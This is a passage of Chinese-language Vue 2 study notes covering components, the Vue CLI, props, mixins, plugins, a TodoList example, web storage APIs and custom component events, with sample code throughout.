关于销毁 Vue 实例

1. 销毁后借助 Vue 开发者工具看不到任何信息。
2. 销毁后自定义事件会失效，但原生 DOM 事件依然有效。
3. 一般不会在 beforeDestroy 操作数据，因为即便操作数据，也不会再触发更新流程了。

## 组件

### 非单文件组件

Vue 中使用组件的三大步骤：

1. 定义组件（创建组件）
2. 注册组件
3. 使用组件（写组件标签）

一、如何定义一个组件？

使用 `Vue.extend(options)` 创建，其中 `options` 和 `new Vue(options)` 时传入的那个 `options` 几乎一样，但也有点区别，区别如下：

1. `el` 不要写，为什么？ ——— 最终所有的组件都要经过一个 vm 的管理，由 vm 中的 el 决定服务哪个容器。
2. `data` 必须写成函数，为什么？ ———— 避免组件被复用时，数据存在引用关系。

使用template可以配置组件结构。

二、如何注册组件？

1. 局部注册：靠 `new Vue` 的时候传入 `components` 选项
2. 全局注册：靠 `Vue.component('组件名',组件)`

三、编写组件标签，例如 `<school></school>`

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>基本使用</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>

<div id="root">
    <hello></hello>
    <hr>
    <h1>{{msg}}</h1>
    <hr>
    <!-- 第三步：编写组件标签 -->
    <school></school>
    <hr>
    <!-- 第三步：编写组件标签 -->
    <student></student>
</div>

<div id="root2">
    <hello></hello>
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false

    // 第一步：创建 school 组件
    const school = Vue.extend({
        template: `
          <div class="demo">
          <h2>学校名称：{{ schoolName }}</h2>
          <h2>学校地址：{{ address }}</h2>
          <button @click="showName">点我提示学校名</button>
          </div>
        `,
        // el:'#root',
        // 组件定义时，一定不要写 el 配置项，因为最终所有的组件都要被一个 vm 管理，由 vm 决定服务于哪个容器。
        data() {
            return {
                schoolName: '尚硅谷',
                address: '北京昌平'
            }
        },
        methods: {
            showName() {
                alert(this.schoolName)
            }
        },
    })

    // 第一步：创建 student 组件
    const student = Vue.extend({
        template: `
          <div>
          <h2>学生姓名：{{ studentName }}</h2>
          <h2>学生年龄：{{ age }}</h2>
          </div>
        `,
        data() {
            return {
                studentName: '张三',
                age: 18
            }
        }
    })

    // 第一步：创建 hello 组件
    const hello = Vue.extend({
        template: `
          <div>
          <h2>你好啊！{{ name }}</h2>
          </div>
        `,
        data() {
            return {
                name: 'Tom'
            }
        }
    })

    // 第二步：全局注册组件
    Vue.component('hello', hello)

    // 创建 vm
    new Vue({
        el: '#root',
        data: {
            msg: '你好啊！'
        },
        // 第二步：注册组件（局部注册）
        components: {
            school,
            student
        }
    })

    new Vue({
        el: '#root2',
    })
</script>
</html>
```

几个注意点：

关于组件名:

1. 一个单词组成：
   + 第一种写法（首字母小写）：`school`
   + 第二种写法（首字母大写）：`School`
2. 多个单词组成：
   + 第一种写法（kebab-case 命名）：`my-school`
   + 第二种写法（CamelCase 命名）：`MySchool`（需要 Vue 脚手架支持）
   + 备注：组件名尽可能回避 HTML 中已有的元素名称，例如：h2、H2 都不行。可以使用 name 配置项指定组件在开发者工具中呈现的名字。

关于组件标签：

+ 第一种写法：`<school></school>`
+ 第二种写法：`<school/>`
+ 备注：不用使用脚手架时，`<school/>` 会导致后续组件不能渲染。

一个简写方式：`const school = Vue.extend(options)` 可简写为：`const school = options`

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>几个注意点</title>
    <script type="text/javascript" src="./js/vue.js"></script>
</head>
<body>
<div id="root">
    <h1>{{msg}}</h1>
    <school></school>
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false

    // 定义组件
    const s = Vue.extend({
        name: 'atguigu',
        template: `
          <div>
          <h2>学校名称：{{ name }}</h2>
          <h2>学校地址：{{ address }}</h2>
          </div>
        `,
        data() {
            return {
                name: '尚硅谷',
                address: '北京'
            }
        }
    })

    new Vue({
        el: '#root',
        data: {
            msg: '欢迎学习Vue!'
        },
        components: {
            school: s
        }
    })
</script>
</html>
```

### 组件的嵌套

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>组件的嵌套</title>
    <script type="text/javascript" src="js/vue.js"></script>
</head>
<body>

<div id="root">

</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false

    // 定义 student 组件
    const student = Vue.extend({
        name: 'student',
        template: `
          <div>
          <h2>学生姓名：{{ name }}</h2>
          <h2>学生年龄：{{ age }}</h2>
          </div>
        `,
        data() {
            return {
                name: '尚硅谷',
                age: 18
            }
        }
    })

    // 定义 school 组件

    const school = Vue.extend({
        name: 'school',
        template: `
          <div>
          <h2>学校名称：{{ name }}</h2>
          <h2>学校地址：{{ address }}</h2>
          <student></student>
          </div>
        `,
        data() {
            return {
                name: '尚硅谷',
                address: '北京'
            }
        },
        // 注册组件（局部）
        components: {
            student
        }
    })

    // 定义 hello 组件
    const hello = Vue.extend({
        template: `<h1>{{ msg }}</h1>`,
        data() {
            return {
                msg: '欢迎来到尚硅谷学习！'
            }
        }
    })

    // 定义 app 组件
    const app = Vue.extend({
        template: `
          <div>
          <hello></hello>
          <school></school>
          </div>
        `,
        components: {
            school,
            hello
        }
    })

    // 创建v m
    new Vue({
        template: '<app></app>',
        el: '#root',
        // 注册组件（局部）
        components: {app}
    })
</script>
</html>
```

### 关于 VueComponent

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>VueComponent</title>
    <script type="text/javascript" src="js/vue.js"></script>
</head>
<body>

<div id="root">
    <school></school>
    <hello></hello>
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false

    // 定义 school 组件
    const school = Vue.extend({
        name: 'school',
        template: `
          <div>
          <h2>学校名称：{{ name }}</h2>
          <h2>学校地址：{{ address }}</h2>
          <button @click="showName">点我提示学校名</button>
          </div>
        `,
        data() {
            return {
                name: '尚硅谷',
                address: '北京'
            }
        },
        methods: {
            showName() {
                console.log('showName', this)
            }
        },
    })

    const test = Vue.extend({
        template: `<span>atguigu</span>`
    })

    // 定义 hello 组件
    const hello = Vue.extend({
        template: `
          <div>
          <h2>{{ msg }}</h2>
          <test></test>
          </div>
        `,
        data() {
            return {
                msg: '你好啊！'
            }
        },
        components: {test}
    })


    // console.log('@',school)  // 构造函数
    // console.log('#',hello)

    // 创建 vm
    const vm = new Vue({
        el: '#root',
        components: {school, hello}
    })
</script>
</html>
```

关于 VueComponent：

1. school 组件本质是一个名为 VueComponent 的构造函数，且不是程序员定义的，是 Vue.extend 生成的。
2. 我们只需要写 `<school/>` 或 `<school></school>`，Vue 解析时会帮我们创建 school 组件的实例对象，即 Vue 帮我们执行的：`new VueComponent(options)`。
3. 特别注意：每次调用 `Vue.extend`，返回的都是一个<font color="#faa755">全新的</font> `VueComponent `！！！！
4. 关于 this 指向：
   + 组件配置中：data 函数、methods 中的函数、watch 中的函数、computed 中的函数，它们的 this 均是【VueComponent实例对象】。
   + new Vue(options) 配置中：data函数、methods中的函数、watch中的函数、computed中的函数，它们的 this 均是【Vue实例对象】。
5. VueComponent 的实例对象，以后简称 vc（也可称之为：组件实例对象）。Vue 的实例对象，以后简称 vm。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>一个重要的内置关系</title>
    <script type="text/javascript" src="js/vue.js"></script>
</head>
<body>

<div id="root">
    <school></school>
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false
    Vue.prototype.x = 99

    // 定义 school 组件
    const school = Vue.extend({
        name: 'school',
        template: `
          <div>
          <h2>学校名称：{{ name }}</h2>
          <h2>学校地址：{{ address }}</h2>
          <button @click="showX">点我输出x</button>
          </div>
        `,
        data() {
            return {
                name: '尚硅谷',
                address: '北京'
            }
        },
        methods: {
            showX() {
                console.log(this.x)
            }
        },
    })

    // 创建一个 vm
    const vm = new Vue({
        el: '#root',
        data: {
            msg: '你好'
        },
        components: {school}
    })


    // 定义一个构造函数
    /* function Demo(){
        this.a = 1
        this.b = 2
    }
    // 创建一个 Demo 的实例对象
    const d = new Demo()

    console.log(Demo.prototype) // 显示原型属性

    console.log(d.__proto__) // 隐式原型属性

    console.log(Demo.prototype === d.__proto__)

    // 程序员通过显示原型属性操作原型对象，追加一个 x 属性，值为 99
    Demo.prototype.x = 99

    console.log('@',d) */

</script>
</html>
```

1. 一个重要的内置关系：`VueComponent.prototype.__proto__ === Vue.prototype`
2. 为什么要有这个关系：让组件实例对象（vc）可以访问到 Vue 原型上的属性、方法。

### 单文件组件

```html
<template>
	<div class="demo">
		<h2>学校名称：{{name}}</h2>
		<h2>学校地址：{{address}}</h2>
		<button @click="showName">点我提示学校名</button>	
	</div>
</template>

<script>
	 export default {
		name:'School',
		data(){
			return {
				name:'尚硅谷',
				address:'北京昌平'
			}
		},
		methods: {
			showName(){
				alert(this.name)
			}
		},
	}
</script>

<style>
	.demo{
		background-color: orange;
	}
</style>
```

```html
<template>
	<div>
		<h2>学生姓名：{{name}}</h2>
		<h2>学生年龄：{{age}}</h2>
	</div>
</template>

<script>
	 export default {
		name:'Student',
		data(){
			return {
				name:'张三',
				age:18
			}
		}
	}
</script>
```

```html
<template>
	<div>
		<School></School>
		<Student></Student>
	</div>
</template>

<script>
	// 引入组件
	import School from './School.vue'
	import Student from './Student.vue'

	export default {
		name:'App',
		components:{
			School,
			Student
		}
	}
</script>
```

```javascript
import App from './App.vue'

new Vue({
	el:'#root',
	template:`<App></App>`,
	components:{App},
})
```

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>练习一下单文件组件的语法</title>
</head>
<body>
<div id="root"></div>

</body>
</html>
```

## Vue 脚手架

### 脚手架文件结构

	├── node_modules 
	├── public
	│   ├── favicon.ico: 页签图标
	│   └── index.html: 主页面
	├── src
	│   ├── assets: 存放静态资源
	│   │   └── logo.png
	│   │── component: 存放组件
	│   │   └── HelloWorld.vue
	│   │── App.vue: 汇总所有组件
	│   │── main.js: 入口文件
	├── .gitignore: git版本管制忽略的配置
	├── babel.config.js: babel的配置文件
	├── package.json: 应用包配置文件 
	├── README.md: 应用描述文件
	├── package-lock.json：包版本控制文件

### 关于不同版本的Vue

1. vue.js 与 vue.runtime.xxx.js 的区别：
    + vue.js 是完整版的 Vue，包含：核心功能 + 模板解析器。
    + vue.runtime.xxx.js 是运行版的 Vue，只包含：核心功能；没有模板解析器。
2. 因为 vue.runtime.xxx.js 没有模板解析器，所以不能使用 `template` 这个配置项，需要使用 `render` 函数接收到的 `createElement` 函数去指定具体内容。

### vue.config.js 配置文件

1. 使用 `vue inspect > output.js` 可以查看到 Vue 脚手架的默认配置。
2. 使用 vue.config.js 可以对脚手架进行个性化定制，详情见：https://cli.vuejs.org/zh

### ref 属性

```html
<template>
  <div>
    <h1 v-text="msg" ref="title"></h1>
    <button ref="btn" @click="showDOM">点我输出上方的 DOM 元素</button>
    <School ref="sch"/>
  </div>
</template>

<script>
// 引入 School 组件
import School from './components/School'

export default {
  name: 'App',
  components: {School},
  data() {
    return {
      msg: '欢迎学习Vue！'
    }
  },
  methods: {
    showDOM() {
      console.log(this.$refs.title) // 真实 DOM 元素
      console.log(this.$refs.btn) // 真实 DOM 元素
      console.log(this.$refs.sch) // School 组件的实例对象（vc）
    }
  },
}
</script>
```

1. 被用来给元素或子组件注册引用信息（id 的替代者）
2. 应用在html标签上获取的是真实 DOM 元素，应用在组件标签上是组件实例对象（vc）
3. 使用方式：
    + 打标识：```<h1 ref="xxx">.....</h1>``` 或 ```<School ref="xxx"></School>```
    + 获取：```this.$refs.xxx```

### props配置项

```vue
<template>
  <div>
    <h1>{{ msg }}</h1>
    <h2>学生姓名：{{ name }}</h2>
    <h2>学生性别：{{ sex }}</h2>
    <h2>学生年龄：{{ myAge + 1 }}</h2>
    <button @click="updateAge">尝试修改收到的年龄</button>
  </div>
</template>

<script>
export default {
  name: 'Student',
  data() {
    console.log(this)
    return {
      msg: '我是一个尚硅谷的学生',
      myAge: this.age
    }
  },
  methods: {
    updateAge() {
      this.myAge++
    }
  },
  // 简单声明接收
  // props:['name','age','sex']

  // 接收的同时对数据进行类型限制
  /* props:{
    name:String,
    age:Number,
    sex:String
  } */

  // 接收的同时对数据：进行类型限制+默认值的指定或必要性的限制
  props: {
    name: {
      type: String, // name 的类型是字符串
      required: true, // name 是必要的
    },
    age: {
      type: Number,
      default: 99 // 默认值
    },
    sex: {
      type: String,
      required: true
    }
  }
}
</script>
```

```vue
<template>
  <div>
    <Student name="李四" sex="女" :age="18"/>
  </div>
</template>

<script>
import Student from './components/Student'

export default {
  name: 'App',
  components: {Student}
}
</script>
```

1. 功能：让组件接收外部传过来的数据

2. 传递数据：```<Demo name="xxx"/>```

3. 接收数据：

    1. 第一种方式（只接收）：```props:['name'] ```
2. 第二种方式（限制类型）：```props:{name:String}```
    3. 第三种方式（限制类型、限制必要性、指定默认值）


备注：props 是只读的，Vue 底层会监测你对 props 的修改，如果进行了修改，就会发出警告，若业务需求确实需要修改，那么请复制 props 的内容到 data 中一份，然后去修改 data 中的数据。

### mixin（混入）

1. 功能：可以把多个组件共用的配置提取成一个混入对象

2. 使用方式：

   + 第一步定义混合

     ```javascript
     export const hunhe = {
     	methods: {
     		showName(){
     			alert(this.name)
     		}
     	},
     	mounted() {
     		console.log('你好啊！')
     	},
     }
     export const hunhe2 = {
     	data() {
     		return {
     			x:100,
     			y:200
     		}
     	},
     }
     ```

   + 第二步使用混入：

     全局混入：`Vue.mixin(xxx)`

     ```javascript
     // 引入 Vue
     import Vue from 'vue'
     // 引入 App
     import App from './App.vue'
     import {hunhe, hunhe2} from './mixin'
     //关闭 Vue 的生产提示
     Vue.config.productionTip = false
     
     Vue.mixin(hunhe)
     Vue.mixin(hunhe2)
     
     
     // 创建 vm
     new Vue({
         el: '#app',
         render: h => h(App)
     })
     ```

     局部混入：`mixins:['xxx']`

     ```vue
     <template>
       <div>
         <h2 @click="showName">学生姓名：{{ name }}</h2>
         <h2>学生性别：{{ sex }}</h2>
       </div>
     </template>
     
     <script>
     import {hunhe,hunhe2} from '../mixin'
     
     export default {
       name: 'Student',
       data() {
         return {
           name: '张三',
           sex: '男'
         }
       },
       mixins:[hunhe,hunhe2]
     }
     </script>
     ```

### 插件

### 插件

1. 功能：用于增强 Vue

2. 本质：包含 install 方法的一个对象，install 的第一个参数是 Vue，第二个以后的参数是插件使用者传递的数据。

3. 定义插件：

    ```js
    对象.install = function (Vue, options) {
        // 1. 添加全局过滤器
        Vue.filter()
    
        // 2. 添加全局指令
        Vue.directive()
    
        // 3. 配置全局混入(合)
        Vue.mixin()
    
        // 4. 添加实例方法
        Vue.prototype.$myMethod = function () {}
        Vue.prototype.$myProperty = xxxx
    }
    ```

4. 使用插件：`Vue.use()`

```javascript
export default {
    install(Vue, x, y, z) {
        console.log(x, y, z)
        // 全局过滤器
        Vue.filter('mySlice', function (value) {
            return value.slice(0, 4)
        })

        // 定义全局指令
        Vue.directive('fbind', {
            // 指令与元素成功绑定时（一上来）
            bind(element, binding) {
                element.value = binding.value
            },
            // 指令所在元素被插入页面时
            inserted(element, binding) {
                element.focus()
            },
            // 指令所在的模板被重新解析时
            update(element, binding) {
                element.value = binding.value
            }
        })

        // 定义混入
        Vue.mixin({
            data() {
                return {
                    x: 100,
                    y: 200
                }
            },
        })

        // 给 Vue 原型上添加一个方法（vm 和 vc 就都能用了）
        Vue.prototype.hello = () => {
            alert('你好啊')
        }
    }
}
```

```javascript
// 引入 Vue
import Vue from 'vue'
// 引入 App
import App from './App.vue'
// 引入插件
import plugins from './plugins'
// 关闭 Vue 的生产提示
Vue.config.productionTip = false

// 应用（使用）插件
Vue.use(plugins, 1, 2, 3)

// 创建 vm
new Vue({
    el: '#app',
    render: h => h(App)
})
```

### scoped 样式

1. 作用：让样式在局部生效，防止冲突。
2. 写法：`<style scoped>`

```vue
<template>
  <div class="demo">
    <h2 class="title">学生姓名：{{ name }}</h2>
    <h2 class="atguigu">学生性别：{{ sex }}</h2>
  </div>
</template>

<script>
export default {
  name: 'Student',
  data() {
    return {
      name: '张三',
      sex: '男'
    }
  }
}
</script>

<style lang="less" scoped>
.demo {
  background-color: pink;

  .atguigu {
    font-size: 40px;
  }
}
</style>
```

## TodoList 案例

### 案例代码

#### App.vue

```vue
<template>
  <div id="root">
    <div class="todo-container">
      <div class="todo-wrap">
        <MyHeader :addTodo="addTodo"/>
        <MyList :todos="todos" :checkTodo="checkTodo" :deleteTodo="deleteTodo"/>
        <MyFooter :todos="todos" :checkAllTodo="checkAllTodo" :clearAllTodo="clearAllTodo"/>
      </div>
    </div>
  </div>
</template>

<script>
import MyHeader from './components/MyHeader'
import MyList from './components/MyList'
import MyFooter from './components/MyFooter'

export default {
  name: 'App',
  components: {MyHeader, MyList, MyFooter},
  data() {
    return {
      // 由于todos是MyHeader组件和MyFooter组件都在使用，所以放在App中（状态提升）
      todos: [
        {id: '001', title: '抽烟', done: true},
        {id: '002', title: '喝酒', done: false},
        {id: '003', title: '开车', done: true}
      ]
    }
  },
  methods: {
    // 添加一个todo
    addTodo(todoObj) {
      this.todos.unshift(todoObj)
    },
    // 勾选or取消勾选一个todo
    checkTodo(id) {
      this.todos.forEach((todo) => {
        if (todo.id === id) todo.done = !todo.done
      })
    },
    // 删除一个todo
    deleteTodo(id) {
      this.todos = this.todos.filter(todo => todo.id !== id)
    },
    // 全选or取消全选
    checkAllTodo(done) {
      this.todos.forEach((todo) => {
        todo.done = done
      })
    },
    // 清除所有已经完成的todo
    clearAllTodo() {
      this.todos = this.todos.filter((todo) => {
        return !todo.done
      })
    }
  }
}
</script>

<style>
/*base*/
body {
  background: #fff;
}

.btn {
  display: inline-block;
  padding: 4px 12px;
  margin-bottom: 0;
  font-size: 14px;
  line-height: 20px;
  text-align: center;
  vertical-align: middle;
  cursor: pointer;
  box-shadow: inset 0 1px 0 rgba(255, 255, 255, 0.2), 0 1px 2px rgba(0, 0, 0, 0.05);
  border-radius: 4px;
}

.btn-danger {
  color: #fff;
  background-color: #da4f49;
  border: 1px solid #bd362f;
}

.btn-danger:hover {
  color: #fff;
  background-color: #bd362f;
}

.btn:focus {
  outline: none;
}

.todo-container {
  width: 600px;
  margin: 0 auto;
}

.todo-container .todo-wrap {
  padding: 10px;
  border: 1px solid #ddd;
  border-radius: 5px;
}
</style>
```

#### MyHeader.vue

```vue
<template>
  <div class="todo-header">
    <input type="text" placeholder="请输入你的任务名称，按回车键确认" v-model="title" @keyup.enter="add"/>
  </div>
</template>

<script>
import {nanoid} from 'nanoid'

export default {
  name: 'MyHeader',
  // 接收从 App 传递过来的 addTodo
  props: ['addTodo'],
  data() {
    return {
      // 收集用户输入的title
      title: ''
    }
  },
  methods: {
    add() {
      // 校验数据
      if (!this.title.trim()) return alert('输入不能为空')
      // 将用户的输入包装成一个todo对象
      const todoObj = {id: nanoid(), title: this.title, done: false}
      // 通知App组件去添加一个todo对象
      this.addTodo(todoObj)
      // 清空输入
      this.title = ''
    }
  },
}
</script>

<style scoped>
/*header*/
.todo-header input {
  width: 560px;
  height: 28px;
  font-size: 14px;
  border: 1px solid #ccc;
  border-radius: 4px;
  padding: 4px 7px;
}

.todo-header input:focus {
  outline: none;
  border-color: rgba(82, 168, 236, 0.8);
  box-shadow: inset 0 1px 1px rgba(0, 0, 0, 0.075), 0 0 8px rgba(82, 168, 236, 0.6);
}
</style>
```

#### MyList.vue

```vue
<template>
  <ul class="todo-main">
    <MyItem
        v-for="todoObj in todos"
        :key="todoObj.id"
        :todo="todoObj"
        :checkTodo="checkTodo"
        :deleteTodo="deleteTodo"
    />
  </ul>
</template>

<script>
import MyItem from './MyItem'

export default {
  name: 'MyList',
  components: {MyItem},
  // 声明接收App传递过来的数据，其中todos是自己用的，checkTodo和deleteTodo是给子组件MyItem用的
  props: ['todos', 'checkTodo', 'deleteTodo']
}
</script>

<style scoped>
/*main*/
.todo-main {
  margin-left: 0px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding: 0px;
}

.todo-empty {
  height: 40px;
  line-height: 40px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding-left: 5px;
  margin-top: 10px;
}
</style>
```

#### MyItem.vue

```vue
<template>
  <li>
    <label>
      <input type="checkbox" :checked="todo.done" @change="handleCheck(todo.id)"/>
      <!-- 如下代码也能实现功能，但是不太推荐，因为有点违反原则，因为修改了props -->
      <!-- <input type="checkbox" v-model="todo.done"/> -->
      <span>{{ todo.title }}</span>
    </label>
    <button class="btn btn-danger" @click="handleDelete(todo.id)">删除</button>
  </li>
</template>

<script>
export default {
  name: 'MyItem',
  // 声明接收todo、checkTodo、deleteTodo
  props: ['todo', 'checkTodo', 'deleteTodo'],
  methods: {
    // 勾选or取消勾选
    handleCheck(id) {
      // 通知App组件将对应的todo对象的done值取反
      this.checkTodo(id)
    },
    // 删除
    handleDelete(id) {
      if (confirm('确定删除吗？')) {
        // 通知App组件将对应的todo对象删除
        this.deleteTodo(id)
      }
    }
  },
}
</script>

<style scoped>
/*item*/
li {
  list-style: none;
  height: 36px;
  line-height: 36px;
  padding: 0 5px;
  border-bottom: 1px solid #ddd;
}

li label {
  float: left;
  cursor: pointer;
}

li label li input {
  vertical-align: middle;
  margin-right: 6px;
  position: relative;
  top: -1px;
}

li button {
  float: right;
  display: none;
  margin-top: 3px;
}

li:before {
  content: initial;
}

li:last-child {
  border-bottom: none;
}

li:hover {
  background-color: #ddd;
}

li:hover button {
  display: block;
}
</style>
```

#### MyFooter.vue

```vue
<template>
  <div class="todo-footer" v-show="total">
    <label>
      <!-- <input type="checkbox" :checked="isAll" @change="checkAll"/> -->
      <input type="checkbox" v-model="isAll"/>
    </label>
    <span>
			<span>已完成{{ doneTotal }}</span> / 全部{{ total }}
		</span>
    <button class="btn btn-danger" @click="clearAll">清除已完成任务</button>
  </div>
</template>

<script>
export default {
  name: 'MyFooter',
  props: ['todos', 'checkAllTodo', 'clearAllTodo'],
  computed: {
    // 总数
    total() {
      return this.todos.length
    },
    // 已完成数
    doneTotal() {
      // 此处使用reduce方法做条件统计
      /* const x = this.todos.reduce((pre,current)=>{
        console.log('@',pre,current)
        return pre + (current.done ? 1 : 0)
      },0) */
      // 简写
      return this.todos.reduce((pre, todo) => pre + (todo.done ? 1 : 0), 0)
    },
    // 控制全选框
    isAll: {
      // 全选框是否勾选
      get() {
        return this.doneTotal === this.total && this.total > 0
      },
      // isAll被修改时set被调用
      set(value) {
        this.checkAllTodo(value)
      }
    }
  },
  methods: {
    /* checkAll(e){
      this.checkAllTodo(e.target.checked)
    } */
    // 清空所有已完成
    clearAll() {
      this.clearAllTodo()
    }
  },
}
</script>

<style scoped>
/*footer*/
.todo-footer {
  height: 40px;
  line-height: 40px;
  padding-left: 6px;
  margin-top: 5px;
}

.todo-footer label {
  display: inline-block;
  margin-right: 20px;
  cursor: pointer;
}

.todo-footer label input {
  position: relative;
  top: -1px;
  vertical-align: middle;
  margin-right: 5px;
}

.todo-footer button {
  float: right;
  margin-top: 5px;
}
</style>
```

### 案例总结

组件化编码流程：
  + 拆分静态组件：组件要按照功能点拆分，命名不要与 html 元素冲突。
  + 实现动态组件：考虑好数据的存放位置，数据是一个组件在用，还是一些组件在用：
      + 一个组件在用：放在组件自身即可。
      + 一些组件在用：放在他们共同的父组件上（<font color="#d9730d">状态提升</font>）。
      + 实现交互：从绑定事件开始。

props 适用于：
  + 父组件 ==> 子组件 通信
  + 子组件 ==> 父组件 通信（要求父先给子一个函数）

使用 v-model 时要切记：v-model 绑定的值不能是 props 传过来的值，因为 props 是不可以修改的！

props 传过来的若是对象类型的值，修改对象中的属性时 Vue 不会报错，但不推荐这样做。

## 浏览器的本地存储

### LocalStorage

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8"/>
    <title>localStorage</title>
</head>
<body>
<h2>localStorage</h2>
<button onclick="saveData()">点我保存一个数据</button>
<button onclick="readData()">点我读取一个数据</button>
<button onclick="deleteData()">点我删除一个数据</button>
<button onclick="deleteAllData()">点我清空一个数据</button>

<script type="text/javascript">
    let p = {name: '张三', age: 18}

    function saveData() {
        localStorage.setItem('msg', 'hello!!!')
        localStorage.setItem('msg2', 666)
        localStorage.setItem('person', JSON.stringify(p))
    }

    function readData() {
        console.log(localStorage.getItem('msg'))
        console.log(localStorage.getItem('msg2'))

        const result = localStorage.getItem('person')
        console.log(JSON.parse(result))

        // console.log(localStorage.getItem('msg3'))
    }

    function deleteData() {
        localStorage.removeItem('msg2')
    }

    function deleteAllData() {
        localStorage.clear()
    }
</script>
</body>
</html>
```

### SessionStorage

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8"/>
    <title>sessionStorage</title>
</head>
<body>
<h2>sessionStorage</h2>
<button onclick="saveData()">点我保存一个数据</button>
<button onclick="readData()">点我读取一个数据</button>
<button onclick="deleteData()">点我删除一个数据</button>
<button onclick="deleteAllData()">点我清空一个数据</button>

<script type="text/javascript">
    let p = {name: '张三', age: 18}

    function saveData() {
        sessionStorage.setItem('msg', 'hello!!!')
        sessionStorage.setItem('msg2', 666)
        sessionStorage.setItem('person', JSON.stringify(p))
    }

    function readData() {
        console.log(sessionStorage.getItem('msg'))
        console.log(sessionStorage.getItem('msg2'))

        const result = sessionStorage.getItem('person')
        console.log(JSON.parse(result))

        // console.log(sessionStorage.getItem('msg3'))
    }

    function deleteData() {
        sessionStorage.removeItem('msg2')
    }

    function deleteAllData() {
        sessionStorage.clear()
    }
</script>
</body>
</html>
```

### WebStorage 总结

1. 存储内容大小一般支持 5MB 左右（不同浏览器可能还不一样）
2. 浏览器端通过 Window.sessionStorage 和 Window.localStorage 属性来实现本地存储机制。
3. 相关API：
    + `xxxxxStorage.setItem('key', 'value');`：该方法接受一个键和值作为参数，会把键值对添加到存储中，如果键名存在，则更新其对应的值。
    + `xxxxxStorage.getItem('person');`：该方法接受一个键名作为参数，返回键名对应的值。
    + `xxxxxStorage.removeItem('key');`：该方法接受一个键名作为参数，并把该键名从存储中删除。
    + `xxxxxStorage.clear()`：该方法会清空存储中的所有数据。
4. 备注：
    + SessionStorage 存储的内容会随着浏览器窗口关闭而消失。
    + LocalStorage 存储的内容，需要手动清除才会消失。
    + `xxxxxStorage.getItem(xxx)` 如果 xxx 对应的 value 获取不到，那么 `getItem` 的返回值是 null。
    + `JSON.parse(null)`的结果依然是 null。

## 组件的自定义事件

### 组件的自定义事件案例

#### App.vue

```vue
<template>
  <div class="app">
    <h1>{{ msg }}，学生姓名是:{{ studentName }}</h1>

    <!-- 通过父组件给子组件传递函数类型的 props 实现：子给父传递数据 -->
    <School :getSchoolName="getSchoolName"/>

    <!-- 通过父组件给子组件绑定一个自定义事件实现：子给父传递数据（第一种写法，使用 @ 或 v-on） -->
    <!-- <Student @atguigu="getStudentName" @demo="m1"/> -->

    <!-- 通过父组件给子组件绑定一个自定义事件实现：子给父传递数据（第二种写法，使用ref） -->
    <Student ref="student" @click.native="show"/>
  </div>
</template>

<script>
import Student from './components/Student'
import School from './components/School'

export default {
  name: 'App',
  components: {School, Student},
  data() {
    return {
      msg: '你好啊！',
      studentName: ''
    }
  },
  methods: {
    getSchoolName(name) {
      console.log('App收到了学校名：', name)
    },
    getStudentName(name, ...params) {
      console.log('App收到了学生名：', name, params)
      this.studentName = name
    },
    m1() {
      console.log('demo事件被触发了！')
    },
    show() {
      alert(123)
    }
  },
  mounted() {
    this.$refs.student.$on('atguigu', this.getStudentName) //绑定自定义事件
    // this.$refs.student.$once('atguigu',this.getStudentName) //绑定自定义事件（一次性）
  },
}
</script>

<style scoped>
.app {
  background-color: gray;
  padding: 5px;
}
</style>

```

#### School.vue

```vue
<template>
  <div class="school">
    <h2>学校名称：{{ name }}</h2>
    <h2>学校地址：{{ address }}</h2>
    <button @click="sendSchoolName">把学校名给 App</button>
  </div>
</template>

<script>
export default {
  name: 'School',
  props: ['getSchoolName'],
  data() {
    return {
      name: '尚硅谷',
      address: '北京',
    }
  },
  methods: {
    sendSchoolName() {
      this.getSchoolName(this.name)
    }
  },
}
</script>

<style scoped>
.school {
  background-color: skyblue;
  padding: 5px;
}
</style>
```

#### Student.vue

```vue
<template>
  <div class="student">
    <h2>学生姓名：{{ name }}</h2>
    <h2>学生性别：{{ sex }}</h2>
    <h2>当前求和为：{{ number }}</h2>
    <button @click="add">点我number++</button>
    <button @click="sendStudentName">把学生名给App</button>
    <button @click="unbind">解绑atguigu事件</button>
    <button @click="death">销毁当前Student组件的实例(vc)</button>
  </div>
</template>

<script>
export default {
  name: 'Student',
  data() {
    return {
      name: '张三',
      sex: '男',
      number: 0
    }
  },
  methods: {
    add() {
      console.log('add回调被调用了')
      this.number++
    },
    sendStudentName() {
      // 触发 Student 组件实例身上的 atguigu 事件
      this.$emit('atguigu', this.name, 666, 888, 900)
      // this.$emit('demo')
      // this.$emit('click')
    },
    unbind() {
      this.$off('atguigu') // 解绑一个自定义事件
      // this.$off(['atguigu','demo']) // 解绑多个自定义事件
      // this.$off() // 解绑所有的自定义事件
    },
    death() {
      this.$destroy() // 销毁了当前 Student 组件的实例，销毁后所有 Student 实例的自定义事件全都不奏效。
    }
  },
}
</script>

<style lang="less" scoped>
.student {
  background-color: pink;
  padding: 5px;
  margin-top: 30px;
}
</style>
```

### 组件的自定义事件小结

1. 一种组件间通信的方式，适用于：子组件向父组件传递。

2. 使用场景：A 是父组件，B 是子组件，B 想给 A 传数据，那么就要在 A 中给 B 绑定自定义事件（  事件的回调在 A 中）。

3. 绑定自定义事件：

4. 第一种方式，在父组件中：`<Demo @atguigu="test"/>`  或 `<Demo v-on:atguigu="test"/>`

2. 第二种方式，在父组件中：
    ```js
    <Demo ref="xxx">
    
    mounted(){
        this.$refs.xxx.$on('atguigu',this.test)
    }
    ```
    
